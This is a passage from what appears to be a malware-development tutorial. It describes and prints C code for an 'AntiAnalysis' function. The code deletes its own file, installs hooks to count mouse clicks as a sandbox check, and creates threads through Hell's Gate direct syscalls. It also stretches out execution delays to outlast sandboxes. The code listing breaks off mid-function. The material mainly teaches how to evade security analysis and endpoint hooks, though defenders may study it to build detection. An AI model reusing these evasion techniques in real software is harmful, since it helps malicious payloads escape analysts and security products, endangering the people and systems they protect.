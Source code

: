 #### AntiAnalysis Helper Function

Create a new function, `AntiAnalysis`, to efficiently call the above functions. To use the `AntiAnalysis` function, an external variable, `g_Sys`, is required. `g_Sys` is a `VX_TABLE` structure that contains the data necessary to use syscalls in the program.

Brief points about the `AntiAnalysis` function:

- It takes `dwMilliSeconds` as an input parameter which represents the amount of time to monitor for mouse clicks.
    
- This function begins by calling `DeleteSelf` to delete the file from the disk.
    
- A while loop is then initiated, which runs the `MouseClicksLogger` through a new thread and waits for it for a period specified by `dwMilliSeconds`.
    
- Once the thread time is up, the hooks installed will be removed and the execution of the program will be delayed for half the value of the `i` variable; where `i` represent the value to delay execution for in minutes.
    
- The function then checks the total number of mouse clicks before the delay. If it is less than 5, the global mouse click monitor variable, `g_dwMouseClicks`, is reset so the next loop will start the mouse click test from the beginning.
    
- Incrementing the variable `i` forces the subsequent `DelayExecutionVia_NtDE` function to wait for a longer duration, creating a way of delaying execution in a sandbox.
    

**AntiAnalysis.c**

```c
// using the 'extern' keyword, because this variable is already defined in the 'Inject.c' file
extern VX_TABLE g_Sys;

//...

BOOL AntiAnalysis(DWORD dwMilliSeconds) {

	HANDLE					hThread			= NULL;
	NTSTATUS				STATUS			= NULL;
	LARGE_INTEGER			DelayInterval	= { 0 };
	FLOAT					i			    = 1;
	LONGLONG				Delay			= NULL;

	Delay = dwMilliSeconds * 10000;
	DelayInterval.QuadPart = -Delay;

	// Self-deletion 
	if (!DeleteSelf()) {
		// we dont care for the result - but you can change this if you want
	}

	// Try 10 times, after that return FALSE
	while (i <= 10) {


		printf("[#] Monitoring Mouse-Clicks For %d Seconds - Need 6 Clicks To Pass\n", (dwMilliSeconds / 1000));

		// Creating a thread that runs 'MouseClicksLogger' function
		HellsGate(g_Sys.NtCreateThreadEx.wSystemCall);
		if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1, MouseClicksLogger, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
			printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
			return FALSE;
		}

		// Waiting for the thread for 'dwMilliSeconds'
```